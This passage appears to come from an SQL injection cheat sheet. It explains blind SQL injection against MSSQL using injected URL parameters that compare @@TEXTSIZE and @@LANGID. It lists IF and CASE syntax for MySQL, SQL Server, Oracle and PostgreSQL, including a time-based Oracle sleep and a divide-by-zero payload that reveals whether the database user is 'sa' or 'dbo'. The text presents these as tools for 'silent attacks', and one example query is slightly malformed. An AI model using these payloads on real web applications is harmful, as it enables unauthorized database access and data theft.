 For Example:

```ex
http://bounty/yadayada.asp?id=8888'+AND+(@@TEXTSIZE>@@LANGID)+AND+'1'+LIKE+'1 --> page will be loaded normally.
http://bounty/yadayada.asp?id=8888'+AND+(@@LANGID>@@TEXTSIZE)+'1'+LIKE+'1 --> page will be blank
```

What we are trying to do is run a existing Transact-SQL inside a MSSQL where its return types is either integer or smallint. And usually, these return types already have their own value.

Such as an example:

```ex
@@LANGID usually will be 0 for default (English language)
@@TEXTSIZE can be bigger than 1000
```

If Statements

Get response based on a if statement. This is one of the key points of Blind SQL Injection, also can be very useful to test simple stuff blindly and accurately. If statements of

MySQL

```mysql
IF(condition,true-part,false-part) (M)
SELECT IF(1=1,'true','false')
```

SQL Server

```sql
IF condition true-part ELSE false-part (S)
IF (1=1) SELECT 'true' ELSE SELECT 'false'
```

Oracle

```oracle
BEGIN
IF condition THEN true-part; ELSE false-part; END IF; END; (O)
IF (1=1) THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END;
```

PostgreSQL

```post
SELECT CASE WHEN condition THEN true-part ELSE false-part END; (P)
SELECT CASE WEHEN (1=1) THEN 'A' ELSE 'B'END;
```

If Statement SQL Injection Attack Samples

if ((select user) = 'sa' OR (select user) = 'dbo') select 1 else select 1/0 (S)

This will throw an divide by zero error if current logged user is not "sa" or "dbo"

Examples:

These tests are simply good for blind sql injection and silent attacks.
